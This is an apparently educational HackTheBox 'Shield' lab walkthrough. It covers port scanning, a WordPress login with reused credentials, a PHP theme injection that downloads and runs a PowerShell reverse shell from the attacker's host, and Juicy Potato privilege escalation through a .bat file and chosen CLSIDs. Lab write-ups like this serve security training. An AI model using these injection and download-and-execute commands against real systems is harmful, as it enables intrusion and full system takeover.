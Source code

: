 # HackTheBox - Shield Writeup


## Enumeration

- scan top 1000 ports
- the result

```sql
nmap -sC -sV -oN nmap/initial 10.10.10.29
```
![1](1.png)

- scan all ports
- the result

```sql
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.29
```

![1](2.png)

- all scan still the same
- open ports
	- 80 / http
	- 3306 / mysql

## WebPage

- Just default windows server page

![1](3.png)

### Gobuster

- Using gobuster to find any hidden directory
- the result

![1](4.png)

### WordPress

- the result show this server have `wordpress` install
- as we know, the wordpress login path is `/wp-admin`
- let's take a look

### Admin Login

- Try to login as admin with credentials from previous box `vaccine`
- Success

![1](7.png)

## Foothold/Gaining Access

### WordPress Theme Injection
- Let's try get the reverse shell by injected the theme
- I'm gonna use this theme "GutenBooster" 
  - and the shell I'm gonna use [Nishang](https://github.com/samratashok/nishang)
- Now, I'm gonna put command in the `404.php`. 
- Which is a 404 template
- Source
  - [Wordpress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)

```php
<?php
exec('powershell IEX(IWR http://10.10.16.13:8000/rev.ps1 -UseBasicParsing)')
?>
```

- This command will download the reverse shell and execute it

![1](8.png)

- Well, the reverse shell is succefully execute 

### SeImpersonatePrivilege

- everytime you've got `powershell reverse shell`
- make sure to run
  - `whoami /all`

- The result

![1](9.png)

- Looks like `SeImpersonatePrivilege is enable `
- We can privesc by using `juicy potato`
- Source
  - [JuicyPotato - Github](https://github.com/ohpe/juicy-potato)
- download the binary into `local machine`. Then, upload into `victim machine`
- via this command
```powershell
IWR http://10.10.16.34:8000/JuicyPotato.exe -outfile again_gimme.exe
```

- then run the binary.
- the result

![1](12.png)

## Privilege Escalation

- First, I'm gonna make `bat` file with powershell command on it.
- I'm called the file `yo_my.bat`
- the command:
- Source
  - [IppSec - Making bat file](https://youtu.be/1ae64CdwLHE?t=2563)

```powershell
powershell "(IEX(IWR http://10.10.16.34:8000/rev.ps1 -UseBasicParsing))"
```

### POTATO

- I'm gonna run `again_gimme.exe` again with this flag:
  - `./again_gimme.exe -t * -p yo_my.bat -l 9902`

- the result

![1](13.png)

- it is failed but we can try with more `CLSID`
- Source
  - [IppSec - JuicyPotato fails with the default CLSID, changing it up to get it working.](https://youtube.com/watch?v=1ae64CdwLHE&t=2675)
  - [Windows CLSID](http://ohpe.it/juicy-potato/CLSID/)
- before we start using the CLSID. We're need to know what type of `OS version` this machine running on
- by using this command:
- `(Get-WmiObject Win32_OperatingSystem).Caption`
- the result

![1](14.png)

- Now, we're need to pick [Windows Server 2016 Standard CLSID](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard/) 
- I'm gonna try with `wpnservice CLSID`
- I'm gonna run this command

```powershell
.\again_gimme.exe -t * -p yo_my.bat -l 9902 -c '{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}'
```

> NOTE: Make sure you're running the nc for listening the connection
> 
> REMEMBER: The powershell command in the `bat file` was downloading another reverse shell file called `rev.ps1`.
> in that file. I'm listening on 9901. If you listen on the other port. Just change the port on that file.

- the result

![1](15.png)

- we've got the root flag

![1](16.png)

## Conclusion
I've learned a lot today. Do not put any credentials on the exposure machine to the hacker or non-secure machine. Even tho it's happened, quickly change the password. I'm also introducing a bunch of tools for windows pentest/hack. Lastly, always update and patch the machine.

I have a fun time doing this machine and I hope you guys do too. Bye ;)
